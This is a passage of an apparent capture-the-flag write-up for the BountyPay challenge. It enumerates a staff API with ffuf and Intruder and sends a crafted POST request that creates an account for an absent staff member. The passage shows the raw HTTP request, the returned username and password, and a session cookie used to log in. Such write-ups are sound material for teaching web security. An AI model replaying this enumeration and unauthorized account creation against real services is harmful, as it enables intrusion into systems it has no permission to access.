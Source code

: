 Next I use ffuf to look for other methods and find the `/api/staff` method. It responds with:

```json
[{"name":"Sam Jenkins","staff_id":"STF:84DJKEIP38"},{"name":"Brian Oliver","staff_id":"STF:KE624RQ2T9"}]
```

I then use Intruder to try other HTTP methods on this endpoint. POST returns the following message:

```json
["Missing Parameter"]
```

I add name as a body parameter. Same message.

Then I try staff_id with a value from the GET response.

```http
POST /api/staff/ HTTP/1.1
Host: api.bountypay.h1ctf.com
X-Token: 8e9998ee3137ca9ade8f372739f062c1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

staff_id=STF:84DJKEIP38
```

The following message is returned:

```json
["Staff Member already has an account"]
```

Ah, so this is making a new staff member account. Sandra from Twitter doesn't seem to be in the list. Let's try her ID (STF:8FJ3KFISL3)

Response:

```json
{"description":"Staff Member Account Created","username":"sandra.allison","password":"s%3D8qB8zEpMnc*xsz7Yp5"}
```

# staff.bountypay.h1ctf.com

## Getting in
Visiting the site, we are redirected to [/?template=login](https://staff.bountypay.h1ctf.com/?template=ticket).
In the last section we saw that Brian Oliver is supposedly a staff member. I try logging in with the credentials we used for him on the app site and they don't work. I then use the credentials the API server gave us for Sandra and they work. The cookie looks like:

```
token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwSmVNbFRkbnIvU3MzMndYSW5XNmNFS1l5T1FDdTVNZFJPMS9TTWtDWEFkODBtRGRlbXpERlZ5WVlUdVZ6eDA0VnkxaWxRbU9CUVA2dFVoOTdwQVljb0NpbSt2d0RkYVF1N1BHUmFSbjZkNHpH
```
